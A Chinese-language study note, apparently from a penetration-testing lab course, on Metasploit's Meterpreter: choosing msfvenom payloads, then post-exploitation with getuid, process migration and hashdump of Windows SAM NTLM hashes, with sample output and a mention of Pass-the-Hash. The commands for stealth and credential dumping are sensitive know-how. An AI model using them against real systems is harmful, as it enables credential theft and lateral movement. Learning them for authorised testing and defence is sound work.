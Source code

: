 ```yaml
---
icon: pen-to-square
date: 2025-04-03
tags: 
title: "Metasploit: Meterpreter"
category:
  - 项目
---
```


```shell-session
msfvenom --list payloads | grep meterpreter
```
该列表将显示适用于以下平台的 Meterpreter 版本;

- Android
- Apple iOS
- Java
- Linux
- OSX
- PHP
- Python
- Windows

您决定使用哪个版本的 Meterpreter 主要基于三个因素;

- 目标作系统（目标作系统是 Linux 还是 Windows？它是 Mac 设备吗？是安卓手机吗？等）
- 目标系统上可用的组件（是否安装了 Python？这是 PHP 网站吗？等）
- 您可以与目标系统建立的网络连接类型（它们是否允许原始 TCP 连接？可以只进行 HTTPS 反向连接吗？IPv6 地址的监控不如 IPv4 地址严密吗？等）


## Meterpreter后渗透
`getuid`显示Meterpreter当前用户
```shell-session
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
ps会列出正在运行的进程。PID会提供将METERPRETER迁移到另一个进程所需的PID信息

### 进程迁移
meterpreter存在于内存中，依附于其他进程，因此可以将此进程迁移到其他进程
输入迁移命令后接目标进程的PID可以迁移进程
```shell-session
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully.
```

**哈希 Dump**

`hashdump`命令将列出SAM数据库的内容。SAM(安全帐户管理器)数据库在Windows系统上存储用户密码。这些密码以 NTLM(新技术 LAN Manager) 格式存储。

```shell-session
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
虽然在数学上无法“破解”这些哈希,NTLM但您仍然可以使用在线NTLM数据库或彩虹表攻击发现清晰文本密码。这些哈希也可以用于Pass-the-Hash攻击,以验证这些用户可以访问同一网络的其他系统。


